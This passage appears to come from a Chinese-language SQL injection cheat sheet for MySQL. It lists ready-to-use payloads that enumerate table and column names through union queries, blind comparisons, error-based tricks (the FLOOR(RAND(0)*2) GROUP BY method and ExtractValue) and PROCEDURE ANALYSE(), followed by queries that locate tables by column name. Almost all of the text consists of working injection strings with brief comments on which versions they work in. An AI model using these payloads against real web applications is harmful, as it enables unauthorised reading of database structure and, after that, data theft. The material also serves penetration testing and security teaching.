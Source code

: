     ```sql
    AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));
    -- 在5.1.5版本中成功。
    ```

### 列名

-   union 查詢

    ```sql
    UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'
    ```

-   盲注

    ```sql
    AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
    ```

-   報錯

    ```sql
    -- 在5.1.5版本中成功
    AND (1,2,3) = (SELECT * FROM SOME_EXISTING_TABLE UNION SELECT 1,2,3 LIMIT 1)
    -- MySQL 5.1版本修復了
    AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT column_name FROM information_schema.columns LIMIT 1)));
    ```

-   利用 `PROCEDURE ANALYSE()`

    ```sql
    -- 這個需要 web 展示頁面有你所注入查詢的一個字段
    -- 獲得第一個段名
    SELECT username, permission FROM Users WHERE id = 1; 1 PROCEDURE ANALYSE()
    -- 獲得第二個段名
    1 LIMIT 1,1 PROCEDURE ANALYSE()
    -- 獲得第三個段名
    1 LIMIT 2,1 PROCEDURE ANALYSE()
    ```

### 根據列名查詢所在的表

```sql
-- 查詢字段名爲 username 的表
SELECT table_name FROM information_schema.columns WHERE column_name = 'username';
-- 查詢字段名中包含 username 的表
SELECT table_name FROM information_schema.columns WHERE column_name LIKE '%user%';
```
